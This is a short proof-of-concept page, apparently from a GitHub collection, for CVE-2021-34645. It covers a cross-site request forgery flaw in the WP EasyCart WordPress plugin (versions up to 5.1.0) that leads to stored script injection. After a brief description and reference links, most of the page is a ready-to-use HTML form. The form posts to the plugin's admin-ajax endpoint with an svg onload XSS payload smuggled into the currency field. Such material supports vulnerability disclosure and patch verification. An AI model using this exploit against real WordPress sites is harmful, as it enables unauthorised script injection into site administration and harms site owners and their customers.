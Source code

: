<h2>CVE-2021-34645</h2>

The Shopping Cart & eCommerce Store WordPress plugin is vulnerable to Cross-Site Request Forgery via the save_currency_settings function found in the ~/admin/inc/wp_easycart_admin_initial_setup.php file which allows attackers to inject arbitrary web scripts, in versions up to and including 5.1.0.

Hyperlink:<br>
`https://plugins.trac.wordpress.org/browser/wp-easycart/trunk/admin/inc/wp_easycart_admin_initial_setup.php?rev=2463792#L240`
`https://www.wordfence.com/vulnerability-advisories/#CVE-2021-34645`

POC:<br>
<html>
	<body>
	<form action="http://ip:port/wp-admin/admin-ajax.php" method="POST">
		<input type="hidden" name="action" value="ec_admin_ajax_save_currency_options" />
		<input type="hidden" name="ec_option_base_currency" value="USD&quot;><svg/onload=alert(/xss/)>" />
		<input type="hidden" name="ec_option_show_currency_code" value="0" />
		<input type="hidden" name="ec_option_currency" value="$" />
		<input type="hidden" name="ec_option_currency_symbol_location" value="1" />
		<input type="hidden" name="ec_option_currency_negative_location" value="1" />
		<input type="hidden" name="ec_option_currency_decimal_symbol" value="." />
		<input type="hidden" name="ec_option_currency_decimal_places" value="2" />
		<input type="hidden" name="ec_option_currency_thousands_seperator" value="," />
		<input type="hidden" name="ec_option_exchange_rates" value="EUR=.73,GBP=.6,JPY=101.9" />
		<input type="submit" value="Submit request" />
	</form>
	</body>
</html>

